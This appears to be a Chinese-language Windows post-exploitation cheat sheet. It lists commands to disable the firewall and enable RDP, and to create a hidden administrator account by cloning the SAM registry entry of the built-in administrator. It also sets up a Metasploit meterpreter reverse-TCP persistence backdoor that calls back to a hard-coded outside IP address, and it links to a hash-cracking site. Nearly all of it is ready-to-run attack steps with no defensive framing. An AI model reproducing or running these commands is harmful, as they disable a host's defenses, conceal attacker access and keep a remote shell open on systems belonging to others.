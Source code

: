 ##关闭防火墙

```
netsh firewall set opmode disable
或者
netsh advfilewall set publicprofile state off
```

##开启RDP服务
###Windows 7 or 2008

```
1.
net start "Windows Management Instrumentation"
2.
C:\Windows\System32\wbem\wmic /namespace:\\root\cimv2\terminalservices path win32_terminalservicesetting where (__CLASS != "") call setallowtsconnections 1
3.
C:\Windows\System32\wbem\wmic  /namespace:\\root\cimv2\terminalservices path win32_tsgeneralsetting where (TerminalName ='RDP-Tcp') call setuserauthenticationrequired 1
4.
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f
5.
net start TermService
```

###Windows XP or 2003

```
wmic
(C:\Windows\System32\wbem\wmic)
path win32_terminalservicesetting where (__CLASS != "")
call setallowtsconnections 1
```

##添加隐藏用户(WIN7)

```
net user e$ 123456 /add
net localgroup administrators e$ /add
net localgroup "Remote Desktop Users" e$ /add
(用户名有“$”，执行`net user`时不会显示)
```

打开注册表regedit  
转到  
`HKEY_LOCAL_MACHINE\SAM\SAM`  
右键"权限"，`administrators`组添加完全控制权限  
转到  
`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names`  
找到添加的隐藏用户一项，类型诸如`0x3ed`，administrator为`0x1f4`。将users中隐藏用户的一项`000003ED`导出为`hs$.reg`。  
将管理员账户的`000001F4`中的F值复制到`000003ED`中的F值，确定保存。  
命令行输入`net user hs$ /del`删除添加的用户，双击刚才导出的文件`hs$.reg`导入注册表。

## backdoor

`msf > use exploit/multi/handler`

`msf exploit(handler) > set lhost 104.128.87.194`

`msf exploit(handler) > set lport 5555`

`msf exploit(handler) > set payload windows/x64/meterpreter/reverse_tcp`

`msf exploit(handler) > run`

...

`meterpreter > run persistence -X -i 60 -P windows/x64/meterpreter/reverse_tcp -p 5555 -r 104.128.87.194`

> `-X` 开机启动
> 
> `-i` 回连时间间隔(秒)
> 
> `-P` payload
> 
> `-p` 回连端口
> 
> `-r` 回连地址



##Windows Hash网站
`http://www.objectif-securite.ch/ophcrack.ph